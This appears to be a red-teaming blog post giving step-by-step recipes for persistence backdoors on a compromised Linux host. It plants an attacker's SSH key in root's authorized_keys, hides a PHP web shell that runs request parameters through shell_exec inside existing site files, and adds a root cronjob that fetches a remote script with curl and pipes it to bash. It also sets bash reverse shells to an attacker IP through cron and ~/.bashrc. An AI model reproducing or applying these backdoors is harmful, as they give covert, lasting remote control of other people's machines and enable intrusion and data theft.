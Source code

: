 ```yaml
---
title: "ffuf"
collection: posts
type: "Info"
permalink: /posts/backdoors
venue: "Red Teaming"
date: 2023-03-12
location: "City, Country"
---
```


## Description : 

A backdoor is any method that allows somebody to remotely access your device without your permission or knowledge.

---

**SSH backdoors :**
First you need to generate a set of ssh keys : 

```bash
# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:0C5OkoRl+Zm8wESgHHlN5oZsfq/bx2UN4Dwbd5mkKK4 root@ip-10-10-235-216
The key's randomart image is:
+---[RSA 2048]----+
| .oo*+           |
|.oo=*. . .   .   |
|..o*.=.o+ o o o  |
|  o.+.=+ * + +   |
|   .oo+.S = +    |
|    .+oo . o .   |
|      o.. o      |
|     Eo  o       |
|     o...        |
+----[SHA256]-----+

```


* Now you have two keys: 1 private key and 1 public key
* You rename the public key from **id_rsa.pub** to **authorized_keys** and leave it in /root/.ssh

* You copy the id_rsa which is the prvate key to your machine and give the right permission 

```bash
chmod 600 id_rsa
```

* Now you can login to the target machine via ssh 

```bash
ssh -i id_rsa USERNAME@X.X.X.X
```

--- 

**PHP Backdoors :**

* Create a php file 

```bash
touch file.php
```

* Content of this file : 

```bash
<?php
if (isset($_REQUEST['cmd'])) {
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}

?>
```

* Try to put this file in already existing php files in **/var/www/html**

* You can access the file by visiting : **http://X.X.X.X/DIRECTORY/file.php**

--- 

**Cronjob Backdoors :**

* Create a cronjob 

```bash
* *     * * *   root    curl http://<yourip>:PORT/shell | bash
```

* The content of the shell file in your machine : 

```bash
#!/bin/bash
bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1
```

---

**.bashrc Backdoor :**
* If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.

* You run this command 

```bash
echo 'bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1' >> ~/.bashrc
```

* If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.

* You should always have your nc listener ready because you don't know when a user will login to their system.